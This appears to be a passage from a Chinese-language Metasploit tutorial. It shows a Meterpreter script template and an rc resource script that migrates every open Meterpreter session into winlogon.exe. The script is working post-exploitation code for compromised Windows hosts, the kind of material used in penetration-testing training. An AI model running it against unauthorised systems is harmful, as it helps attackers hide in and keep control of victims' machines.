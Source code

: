 ```
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions 
```

该脚本直接引用自 Metasploit 示例

## 在多个 Meterpreter 会话上运行进程迁移

从 `msfconsole` 并在获取所有 Meterpreter 会话后，转到 `post/windows/manage/migrate`

```
use post/windows/manage/migrate 
```

> **注意：** 确保您有足够的权限迁移到指定的进程

然后创建一个包含 `<ruby> </ruby>` 标签的 `rc` 扩展名文件

**mass-mirgation.rc**

```
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby> 
```
